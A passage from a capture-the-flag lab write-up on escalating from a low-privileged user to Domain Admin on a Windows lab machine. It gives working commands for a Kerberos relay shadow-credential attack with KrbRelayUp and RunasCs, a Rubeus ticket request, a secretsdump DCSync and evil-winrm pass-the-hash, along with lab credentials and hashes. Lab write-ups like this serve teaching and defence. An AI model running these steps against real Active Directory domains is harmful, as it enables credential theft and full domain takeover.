

At this point, we can grab the user flag under their desktop folder and start looking at ways to escalate privileges to Administrator.

## Privilege Escalation
Enumerating the filesystem doesn't give us much to work with and our current user lacks any special token privileges. Checking the system's information reveals that it is running Windows 10 Server 2019 build 17763. Seeing as this is quite old now, I begin researching ways to escalate privileges with a particular focus on Kerberos and any supported authentication mechanisms.

```
PS> cmd /c ver
Microsoft Windows [Version 10.0.17763.3406]
```

### KrbRelay
Eventually, I am led to a relatively popular attack known as KrbRelay, which is a post-exploitation technique that abuses Kerberos relaying in Active Directory environments where protections like LDAP signing or Extended Protection are not enforced. A low-privileged attacker can relay a machine account's Kerberos authentication to LDAP, abuse features like Resource-Based Constrained Delegation (RBCD), and impersonate privileged users to gain SYSTEM or local administrator access. This often creates a path toward full domain compromise in misconfigured environments. Although Microsoft disclosed the issue in May 2022, meaningful hardening against common KrbRelay abuse paths did not arrive until the October 2022 security updates.

This attack requires two prerequisites in order to work:
- October 2022 patches have not been installed on the machine
- LDAP signing has not been enabled (this is the default on Windows)

We also must have ability to write the `msDs-KeyCredentialLink` attribute of the target in order to generate a new one and add it. Luckily, we have this permission over _M.Lovegod_ but will need to use RunasCs.exe in order to execute commands as them, since they aren't able to grab a shell. Note that performing this attack to just spawn a SYSTEM shell will fail as we have a remote session. This is because it creates another CMD window which would require us to have a console via RDP.

### Attack Flow
There's also a tool named [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp) that automates this process by performing the more common attack paths with KrbRelay. I'll use it alongside [RunasCs](https://github.com/antonioCoco/RunasCs) to execute a relay as _M.Lovegod_ and add a Shadow Cred (grab a certificate) for the Domain Controller's machine account. Once we have secured that PFX, we can use [Rubeus](https://github.com/ghostpack/rubeus) to grab the DC's machine account NTLM from a TGT and perform a DCSync attack to get all domain hashes. This [Microsoft article](https://www.microsoft.com/en-us/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/?source=post_page-----5bbce44b0cf6---------------------------------------) dives into further detail on Kerberos Relay attacks, I recommend reading it in its entirety.

### Execution
Let's start by executing a KrbRelay attack to grab that certificate. In order to do so, we need to provide a CLSID (a class identifier used by Windows to identify specific COM components) so we have sufficient privileges. I default to using the one for TrustedInstaller as it has worked well for me in the past, however there are a few examples on KrbRelay's [README page](https://github.com/cube0x0/KrbRelay#clsids).

The RunasCs tool supports the use of different level trusts upon execution which can be displayed with both the `-l` and `-h` flags in conjunction. As we are adding a ShadowCred here, I use level 9 that matches NewCredentials.



```
PS> .\RunasCs.exe m.lovegod AbsoluteLDAP2022! -d absolute.htb -l 9 "C:\temp\KrbRelayUp.exe relay -m shadowcred -cls {752073A1-23F2-4396-85F0-8FDB879ED0ED}"
```



Now we can grab the certificate portion (the massive Base64 blob) as well as the password and send it over to Rubeus in order to grab a high-privileged NTLM hash.

```
PS> ./Rubeus.exe asktgt /user:DC$ /certificate:'[CERTIFICATE_BLOB]' /password:'[PASSWORD_STRING]' /getcredentials /show /nowrap
```



From here, we can utilize this in a DCSync attack with a tool like Impacket's [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) script to gather all domain hashes.

```
└─$ impacket-secretsdump absolute.htb/'DC$'@dc.absolute.htb -hashes ':A7864AB463177ACB9AEC553F18F42577'
```



Finally, using the Administrator's NTLM in a Pass-The-Hash attack allows us to grab a shell with full domain privileges. Grabbing the root flag under their desktop folder will complete this challenge.

```
└─$ evil-winrm -i dc.absolute.htb -u administrator -H '1f4a6093623653f6488d5aa24c75f2ea'
```



That's all y'all, apart from the broken certificate that had me stuck for seemingly no reason, this box was truly amazing. It forced us to dig deep into how Kerberos authentication works and had some more realistic attack vectors to get a foothold instead of Guest auth being enabled like some others. I hope this was helpful to anyone following along or stuck and happy hacking!
